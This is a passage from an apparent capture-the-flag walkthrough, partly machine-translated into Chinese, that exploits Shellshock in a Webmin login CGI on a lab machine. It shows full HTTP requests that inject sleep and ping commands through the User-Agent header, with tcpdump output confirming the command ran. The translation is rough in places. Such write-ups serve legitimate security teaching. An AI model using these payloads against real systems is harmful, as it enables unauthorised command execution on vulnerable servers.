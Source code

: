 如果我假设我没有root密码，我可以尝试登录webmin进行一些猜测。当我尝试登录时，它会创建一个 POST 请求：`/session_login.cgi`

    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Origin: https://10.10.10.7:10000
    DNT: 1
    Connection: close
    Referer: https://10.10.10.7:10000/
    Cookie: testing=1; sid=x
    Upgrade-Insecure-Requests: 1
    
    page=%2F&user=root&pass=root
    

任何时候有CGI（_特别是在_旧机器上），就该寻找[《炮弹奇兵》](https://en.wikipedia.org/wiki/Shell_shock)了。为了进行测试，我将登录请求转到中继器，并将标头替换为 Shellshock 漏洞利用字符串 ，从简单的睡眠开始：`User-Agent``() { :; };[cmd]`

    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };sleep 10
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 28
    Origin: https://10.10.10.7:10000
    DNT: 1
    Connection: close
    Referer: https://10.10.10.7:10000/
    Cookie: testing=1; sid=x
    Upgrade-Insecure-Requests: 1
    
    page=%2F&user=root&pass=root
    

It hangs for 10 seconds and then returns. I’ll try a :`ping`

    POST /session_login.cgi HTTP/1.1
    Host: 10.10.10.7:10000
    User-Agent: () { :; };ping -c 1 10.10.14.2
    Content-Length: 28
    
    page=%2F&user=root&pass=root
    

At , I see it arrive:`tcpdump`

    root@kali$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
    listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
    14:46:35.325588 IP 10.10.10.7 > 10.10.14.2: ICMP echo request, id 23824, seq 1, length 64
    14:46:35.325599 IP 10.10.14.2 > 10.10.10.7: ICMP echo reply, id 23824, seq 1, length 64
    